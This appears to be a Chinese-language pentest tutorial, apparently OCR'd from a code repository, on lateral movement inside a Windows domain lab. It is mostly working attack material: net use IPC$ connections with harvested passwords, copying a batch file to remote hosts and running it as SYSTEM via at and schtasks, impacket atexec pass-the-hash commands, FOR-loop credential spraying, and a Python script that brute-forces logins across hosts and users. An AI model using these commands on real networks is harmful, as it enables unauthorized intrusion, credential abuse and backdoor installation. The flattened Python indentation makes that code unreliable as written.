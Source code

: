 **案例1-横向渗透明文传递at&schtasks**

在拿下一台内网主机后，通过本地信息搜集收集用户凭证等信息后，如何横向渗透拿下更多的主机？这里仅介绍at&schtasks命令的使用，在已知目标系统的用户明文密码的基础上，直接可以在远程主机上执行命令。
获取到某域主机权限->minikatz得到密码（明文，hash）->用到信息收集里面域用户的列表当做用户名字典->用到密码明文当做密码字典-》尝试连接->创建计划任务(at|schtasks)->执行文件可为后门或者相关命令
利用流程
1. 建立IPC链接到目标主机
2. 拷贝要执行的命令脚本到目标主机
3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本
4. 删除IPC链接

```BASH
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.bat 1.bat  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.bat /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
```
### 建立IPC常见的错误代码




```
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
```
**建立IPC失败的原因**
```
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误
```


**[at] & [schtasks]**
```bash
#at < Windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.21\c$  #拷贝执行文件到目标机器
at \\192.168.3.21 15:47 c:\add.bat    #添加计划任务

#schtasks >=Windows2012
net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad
ministrator # 建立ipc连接：
copy add.bat \\192.168.3.32\c$ #复制文件到其C盘
schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件
schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.3.21 /tn adduser /f#删除adduser任务

#案例2-横向渗透明文HASH传递atexec-impacket
atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"
atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"
```

**案例3-横向渗透明文HASH传递批量利用-综合**

```bash
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator #批量检测IP对应明文连接
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami #批量检测IP对应明文回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.3.21 whoami #批量检测明文对应IP回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.3.21 whoami #批量检测HASH对应IP回显版
```

**案例4-横向渗透明文HASH传递批量利用-升级版**

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典能吃西瓜？
```
net use \\192.168.3.32\ipc$ admin!@#45 /user:god\dbadmin

#pip install pyinstaller
#pyinstaller -Ffuck_neiwang_001.py生成可执行EXE
```
使用该脚本去爆破用户密码
```PY
import os,time
ips={
'192.168.3.21',
'192.168.3.25',
'192.168.3.29',
'192.168.3.30',
'192.168.3.31',
'192.168.3.33'
}

users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
passs={
    # 输入抓取的密码hash
'admin',
'admin!@#45',
'Admin12345'
}

for ip in ips:
for user in users:
for mima in passs:
exec="net use \\"+ "\\"+ip+'\ipc$ '+mima+' /user:god\\'+user
print('--->'+exec+'<---')
os.system(exec)
time.sleep(1)
```